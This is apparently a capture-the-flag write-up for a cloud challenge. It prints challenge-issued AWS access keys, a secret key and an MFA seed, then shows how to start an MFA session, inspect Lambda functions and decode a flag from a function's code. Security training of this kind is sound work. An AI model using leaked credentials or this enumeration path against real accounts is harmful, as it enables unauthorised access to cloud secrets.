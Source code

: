 # Rain checks

## Overview

This was a cloud challenge. It provided some leaked AWS credentials and a policy JSON with some permissions.

## Solution

```
AKIA22D7J5LEAGT3CKGP <- Access key
ByaBJ7YFJnjXW8R88VOht+DFDRnS8R553UXPFon3 <- Secret key
E3HGFFMHZDLJG2WAEO5FOLMB3GGVVKQNOAIIQ5TIBVBZ4G773RPB47QVC3QTZSJV <- MFA key
arn:aws:iam::743296330440:mfa/mfa-exposed-user <- MFA ARN
```

Create a new aws configuration with the region `eu-central-1` (from the json file)
```
$ aws configure --profile nullcon
AWS Access Key ID [None]: AKIA22D7J5LEAGT3CKGP
AWS Secret Access Key [None]: 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
Default region name [None]: eu-central-1
Default output format [None]:
```

Import the MFA key into an authenticator app. I used Authy and generated a QR code using this site https://stefansundin.github.io/2fa-qr/

Login using the MFA token
```
$ aws sts get-session-token --serial-number arn:aws:iam::743296330440:mfa/mfa-exposed-user --profile nullcon --token-code 174257
```

Set the following environment variables with the output from the last command
```
$ export AWS_ACCESS_KEY_ID=ASIAIOSFODNN7EXAMPLE
$ export AWS_SECRET_ACCESS_KEY=wJalrXUtnFEMI/K7MDENG/bPxRfiCYEXAMPLEKEY
$ export AWS_SESSION_TOKEN=AQoDYXdzEJr...
```

Get the function information from the JSON file

We can download the code but it is not useful in this case. Trying to invoke/update the function doesn't work, because the current user is missing those permissions.

The function has the description "lambda function that checks the current secret value. Both, the lambda code and the secret are protected against editing by lambda-aws-config-confirm-state-of-lambda and lambda-aws-config-confirm-state-of-secrets"

Getting the function information for `lambda-aws-config-confirm-state-of-lambda` and `lambda-aws-config-confirm-state-of-secrets`

Downloading the code for those function we find the correct secret in `lambda-aws-config-confirm-state-of-secrets`

```python
def correct_secret():
    secret_name = "flag1"
    region_name = "eu-central-1"

    session = boto3.session.Session()
    client = session.client(
        service_name='secretsmanager',
        region_name=region_name
    )

    response = client.put_secret_value(
    SecretId=secret_name,
    SecretString=base64.b64decode('RU5Pe04wX0VkMXRfU3QxbGxfVnVsbn0='))
```

```
$ $echo RU5Pe04wX0VkMXRfU3QxbGxfVnVsbn0= | base64 -d
ENO{N0_Ed1t_St1ll_Vuln}
```